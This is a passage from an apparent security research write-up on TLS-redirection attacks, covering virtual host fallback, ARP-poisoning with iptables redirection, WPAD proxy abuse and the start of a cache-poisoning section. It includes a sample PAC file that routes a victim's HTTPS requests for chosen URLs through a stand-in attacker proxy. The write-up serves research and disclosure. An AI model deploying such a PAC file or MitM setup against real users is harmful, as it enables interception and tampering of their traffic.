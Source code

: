 CN* - Chrome hasn't supported CN field since 58

** - depends on configuration of web server and browser

### Vitrual host fallback
When an HTTP request comes to the TLS-brother server instead of the Attacked server, the SNI of the TLS request and the Host header of the request itself will indicate the name of the Attacked server.

In case the web server does not have a virtual host with the name of the Attacked server, the response comes from the default virtual host

## Attacks (MitM)
### Techniques
Here is a list of techniques to perform TLS-redirection attacks.

#### MitM + iptables redirection
When the Attacked server and the TLS-brother server have different IPs (or ports), then all connections are redirected to a host controlled by the attacker using various MITM techniques (arp-poisoning, for example). The IP address (port) is changed to the required one using iptables (for example).

#### Adversary proxy
By attacking WPAD, the attacker can force a user’s browser to use different proxy servers for different domain names using the PAC file. As the attacker controls the proxy server, he or she can redirect requests from the user’s browser.

Before the publication of several papers in 2016, attackers could set the rules at the URL level (Chrome, FF), and not just at the domain name level, which allowed more sophisticated TLS redirection attacks, for example, redirection and substitution of only parts of pages (Active Content Substitution attack). However, the technique is still useful for attacks at the domain name level. 

Chrome - fixed. FF - not fixed (last checked in Jan 2017).

Example of wpad file:

    function FindProxyForURL(url, host) {
        if (url == "https://HostA/crossdomain.xml") {
            alert("Req 2 HostA w/ crossdomain "+url);
            return "PROXY attacker.proxy.com:9999";
        } else if (url.indexOf('https://HostA') !== -1) {
            alert("Req 2 HostA "+url);
            return "PROXY attacker.proxy.com:8888";
        } else {
            alert("for another hosts "+url);
            return "DIRECT";
        }
    }


#### Cache poisoning attack
Most web servers add headers, which allow caching of static content (JS, CSS), by default. A browser caches responses binding them to the full URL, if there is a permission (in the headers from the web server).
